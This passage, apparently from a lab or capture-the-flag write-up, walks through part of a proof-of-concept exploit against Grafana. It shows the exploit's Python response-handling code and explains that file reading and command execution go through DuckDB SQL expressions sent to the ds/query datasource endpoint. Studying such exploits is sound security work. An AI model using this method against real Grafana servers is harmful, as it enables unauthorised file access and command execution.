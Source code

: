 ```python
        result = data["results"]["B"]
        if "error" in result and "no such file or directory" in result["error"]:
            failure("DuckDB is not installed on the target system. This exploit requires DuckDB to be present in the system PATH.")
            return None

    if data.get("message"):
        msg_failure("Received unexpected response:")
        msg_failure(json.encode(data, indent=4))  # prettify json
        return None

    try:
        values = data["results"]["B"]["frames"][0]["data"]["values"]
        values = cast(List, values)
        if len(values) == 0:
            failure("File not found")
            return None

        msg_success("Successfully ran duckdb query:")
        msg_success(f"{query}:")
        return values
    except (KeyError, IndexError):
        msg_failure("Unexpected response format:")
        msg_failure(json.encode(data, indent=4))
        return None
```

We can see that it makes a `json POST` request to an `api` endpoints called `ds/query`, `ds` stands for `datasource` and so the vulnerability is running a `query` against the `datasource` endpoint. [Here's the documentation.](https://grafana.com/docs/grafana/latest/developers/http_api/data_source/#query-a-data-source)

We can see that the exploit uses the `query` in the `expression` value of the `POST` request. The way the exploit extracts files is not actually an `SQLi` but simply an `SQL query` that reads the file. Similarly the way it runs command is through `SQL command injection` and not any actual `SQLi`.

Also learned about the [ten](https://cfreal.github.io/ten/site/index.html) library from this `PoC` which, looking at it, is a really good web exploitation library, so I definitely recommend to check it out.